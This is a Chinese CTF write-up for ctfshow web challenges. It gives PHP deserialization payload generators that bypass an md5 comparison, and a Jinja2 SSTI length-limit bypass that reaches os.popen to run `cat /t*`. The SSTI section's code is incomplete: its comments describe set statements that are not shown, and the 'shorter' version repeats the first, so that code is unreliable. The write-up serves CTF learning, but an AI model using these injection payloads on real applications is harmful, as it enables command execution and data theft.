

# ctfshow单身杯

## Web

### Web1（签到题）

```php
<?php
        error_reporting(0);
        highlight_file(__FILE__);

        class ctfshow {
                private $d = '';
                private $s = '';
                private $b = '';
                private $ctf = '';

                public function __destruct() {
                        $this->d = (string)$this->d;
                        $this->s = (string)$this->s;
                        $this->b = (string)$this->b;

                        if (($this->d != $this->s) && ($this->d != $this->b) && ($this->s != $this->b)) {
                                $dsb = $this->d.$this->s.$this->b;

                                if ((strlen($dsb) <= 3) && (strlen($this->ctf) <= 3)) {
                                        if (($dsb !== $this->ctf) && ($this->ctf !== $dsb)) {
                                                if (md5($dsb) === md5($this->ctf)) {
                                                        echo "flag";
                                                }
                                        }
                                }
                        }
                }
        }

        $dsbctf = $_GET["dsbctf"];

        unserialize(urldecode($dsbctf));
```

审一下代码，我们可以知道这是一道php反序列化题目

审计源码，发现在`ctfshow`类中只有魔术方法`__destruct()`，由于该方法在PHP程序执行结束后自动调用，因此只需要构造合适的payload满足`__destruct()`中的条件即可拿到flag。

`ctfshow`类中一共有4个变量，其中前三个变量`$d`、`$s`、`$b`会被强制转成字符串类型，并且这三个变量的值互不相等，满足这一条件后会将三个变量拼接起来，得到一个新的字符串变量`$dsb`，进入第二个`if`判断。

在第二个`if`判断中，需要满足变量`$dsb`和`$ctf`的长度都不超过3，满足条件后进入第三个`if`判断。

在第三个`if`判断中，需要满足变量`$dsb`和`$ctf`的值不相等，并且比较类型为强类型，因此无法通过弱类型绕过，满足条件后进入最后一个if判断。

##### 解法一

通过double精度绕过

> - string("0.4") 和 double(0.400000000000004)进行比较时，string("0.4")转换为数字型0.4，即0.400000000000000和0.400000000000004的比较，直观看到：数据值不同，逻辑`!=`比较为true
> - 浮点型 double(0.4) 【0.400000000000004】在进行MD5加密时，实际加密的为0.4，即MD5(0.4)===MD5(0.4)

Payload:

```php
<?php
    class ctfshow {
        private $d = '0';
        private $s = '.';
        private $b = '4';
        private $ctf = 0.400000000000004;
    }

    $dsbctf = new ctfshow();

    echo urlencode(serialize($dsbctf));
```

##### 解法二

php特定数据类型值绕过

> 基于上述的条件，可以用PHP中的特殊浮点数常量`NAN`和`INF`来构造payload，因为将这两个常量转成字符串类型之后的md5值与原先的浮点类型md5值相等，又由于类型不相等、长度均为3，所以可以满足最后三个if判断。由于在第一个判断条件中要求变量`$dsb`的三个字符互不相等，因此只能取`INF`来构造payload
>
> NAN:即非数，特性：和任何数据类型运算还是本身
>
> INF:即无穷大，`'2'/0`、`2/a`、`2.0/0`

Payload:

```php
<?php
    class ctfshow {
        private $d = 'I';
        private $s = 'N';
        private $b = 'F';
        private $ctf = INF;
    }

    $dsbctf = new ctfshow();

    echo urlencode(serialize($dsbctf));
```


### ezzz_ssti



这是一道ssti的题目，但是对长度有限制，要求＜=40个字符

这道题用到了Flask 框架中的`config`全局对象。`config` 对象实质上是一个字典的子类，可以像字典一样操作，而`update`方法又可以更新python中的字典。我们就可以利用 Jinja 模板的 `set` 语句配合字典的 `update()` 方法来更新 `config` 全局对象，将字典中的`lipsum.__globals__`更新为`g`，就可以达到在 `config` 全局对象中分段保存 `Payload`，从而绕过长度限制。

参考文章：

> [Python Flask SSTI 之 长度限制绕过_python绕过长度限制的内置函数-CSDN博客](https://blog.csdn.net/weixin_43995419/article/details/126811287)
>
> [记一次SSTI长度限制绕过 - 先知社区](https://xz.aliyun.com/t/16432?time__1311=GuD%3Dq%2BxIOG8D%2FD0liGkWQIo4mo%2BAeD)

update方法

```python
d = {'a': 1, 'b': 2, 'c': 3} 
d.update(d=4)
print(d)

'''
{'a': 1, 'b': 2, 'c': 3, 'd': 4}
```

借助这个方法我们可以通过对语句进行不断的拼接，从而绕过ssti的长度限制

```
   //此时字典中a的值被更新为config全局对象中的update方法
   //f的值被更新为lipsum.__globals__
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /t*").read()}}     
```

如果还需要更短的话可以省略set

```
   //此时字典中a的值被更新为config全局对象中的update方法
   //f的值被更新为lipsum.__globals__
          //o的值被更新为lipsum.__globals__.os
       //p的值被更新为lipsum.__globals__.os.popen
{{config.p("cat /t*").read()}}     
```

